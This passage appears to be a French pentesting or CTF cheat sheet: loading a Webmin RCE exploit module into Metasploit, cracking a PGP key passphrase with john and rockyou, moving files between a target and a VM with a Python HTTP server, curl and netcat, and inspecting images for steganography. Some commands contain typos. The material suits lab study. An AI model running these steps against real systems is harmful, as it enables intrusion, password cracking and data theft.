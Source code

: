 1. Si fichier ruby (.rb), l'ajouter dans l'arbo de metasploit 
```
mv 47330.rb Webmin_RCE.rb
cp Webmin_RCE.rb /usr/share/metasploit-framework/modules/exploits/unix/webapp
ls -l /usr/share/metasploit-framework/modules/exploits/unix/webapp
ls -l /usr/share/metasploit-framework/modules/exploits/unix/webapp | grep Webmin
msfconsole 
	> search Webmin
	> use [X]
```
# 13) Déchiffre un fichier PGP
* Necessité de 2 fichiers 
	* [fichier].pgp : Fichier chiffré via une clef PGP
	* [fichier].asc : Cléf de chiffrement du fichier
1. Convertir cléf de chiffrement en john readable
```
gpg2jhohn [FICHIER].asc > [FICHIER.asc].hash
```
2. Cracker le mot de passe de la cléf via john
```
john --wordlist=/usr/share/wordlists/rockyou.txt id_pgp.hash[FICHIER.asc].hash
```
3. Déchiffré le fichier chiffré via le mot de passe de la cléf de chiffrement
```
gpg --output [FICHIER_SORTIE] --decrypt [FICHIER].pgp
```

# 14) Transférer fichier entre cible et VM

## Python
1. Sur la machine émettrice (là où se trouve le fichier à partager)
```
python3 -m http.server [PORT]
```
2. Sur la machine réceptrice (pour télécharger le fichier)
```
curl http://[IP]:[PORT]/[FICIHIER] -o [NOM_SORTIE]
```

## Netcat 
1. Sur la machine qui doit recevoir le fichier 
```
nc -l -p [PORT] > [NOM_FICHIER]
```
2. Sur la machine qui doit envoyer le fichier 
```
nc [IP DESTI] [PORT DESTI] < [FICHIER]
```
# 15) Stéganographie
1. Utiliser exiftool
```
exiftool [IMAGE]
```
2. Utiliser exif
```
exif [IMAGE]
```
3. Utiliser strings
```
strings [IMAGE]
```
4. Utiliser binwalk